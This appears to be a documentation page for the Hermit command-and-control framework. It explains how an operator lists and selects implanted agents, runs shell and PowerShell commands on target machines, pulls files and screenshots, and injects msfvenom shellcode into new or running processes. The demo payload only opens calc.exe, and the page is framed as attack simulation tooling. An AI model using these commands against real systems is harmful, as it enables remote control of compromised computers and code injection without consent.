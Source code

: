 +++
title = "Agent"
date = 2024-01-11
[extra]
toc=true
+++

After executing the implant in target computer, the agent will start and attempt to connect to your C2 server's listener.  
If it succeeds, the agent has been registered in the C2 server. You can check agents with the `agents` (or `agent list`) command.

```sh
Hermit $ agents
```

## Switch to Agent Mode

To interact with the agent for attack simulation, you can run the `agent use <ID or Name>` command.

```sh
# Specify the agent ID
Hermit $ agent use 1

# Specify the agent name
Hermit $ agent use agent_123
```

<br />

## Send Tasks

In the agent mode, you can remote control to target computer with sending tasks to the agent.  
Specifically, you can use the following commands:

|Command|Description|
|---|---|
|exit|Exit the agent mode.|
|cat|Read a file content.|
|cd|Change the current directory.|
|cp|Copy file to another location.|
|download|Download a file from target computer.|
|info|Get the detailed information of the system.|
|ls|List files in specified directory.|
|loot|Show the looted information for the agent that you've obtained so far. (Under development)|
|mkdir|Create a new directory.|
|net|Get the network information.|
|ps|Process management.|
|pwd|Get the current directory.|
|rm|Remove file or directory.|
|screenshot|Take a screenshot for target machine.|
|shell|Execute shell command for target machine.|
|shellcode|Inject a shellcode for executing arbitrary commands in the new created process.|
|sleep|Change sleep time for sending requests to C2 server.|
|upload|Upload a file to target computer. (Under development)|
|whoami|Get current username.|
|help|Print this message or the help of the given subcommand(s)|

### Shell

- CMD

```sh
Hermit [agent: agent_2352650890] $ shell whoami
[+] VICTIM\john
```

- PowerShell

If you want to run PowerShell command, add the `--ps` flag.

```sh
Hermit [agent: agent_2352650890] $ shell --ps Get-Process
[+]
...
```

### Shellcode

To execute shellcode in process, you need to generate shellcode at first.  
For example, the following command generates a shellcode which opens `calc.exe`.  
Currently **HEX** encoding required.

```sh
msfvenom -p windows/x64/exec CMD="calc.exe" -f hex -o /tmp/shellcode.txt
```

After generating, run the `shellcode` command in the agent mode.

- **Inject New Process**

When specifying the process name with the `--process` option, a new process will be created and injected shellcode.

```sh
Hermit [agent: agent_2352650890] $ shellcode --process svchost --file /tmp/shellcode.txt
```

- **Inject Running Process**

When specifying the process ID with the `--pid` option, the currently running process will be injected shellcode.  
To list the PIDs, run the `ps list` command in agent mode.

```sh
Hermit [agent: agent_2352650890] $ shellcode --pid 1234 --file /tmp/shellcode.txt
```

If successful, the target computer opens `calc.exe`.

<br />

## Quit Agent Mode

To quit the agent mode and return the home console, run the `exit` command.

```sh
Hermit [agetn: agent_0123] $ exit
```

<br />

## Delete Agent

```sh
# Specify the agent ID
Hermit $ agent delete 1

# Specify the agent name
Hermit $ agent delete agent_123
```

### Delete All Agents

If you want to delete all agents, specify `all` to the second argument as below:

```sh
Hermit $ agent delete all
```
